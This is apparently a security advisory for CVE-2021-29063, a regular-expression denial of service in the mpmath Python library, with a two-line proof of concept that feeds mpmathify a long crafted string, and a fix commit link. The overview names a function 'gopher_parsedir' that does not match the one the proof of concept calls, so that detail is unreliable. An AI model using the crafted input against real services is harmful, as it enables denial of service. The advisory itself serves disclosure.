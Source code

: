 # CVE-2021-29063
## Package

mpmath

## Overview

mpmath is Python library for arbitrary-precision floating-point arithmetic. 

Regular Expression Denial of Service (ReDOS) in Mpmath v1.0.0.

Passing specific string to gopher_parsedir may result in long excesively long evaluation by the regex used inside the function.

## Proof of Concept

```python
from mpmath import mpmathify
mpmathify("(" + "1" * 5000 + "j!")
```

## GitHub Commit

 https://github.com/vks/mpmath/commit/c811b37c65a4372a7ce613111d2a508c204f9833

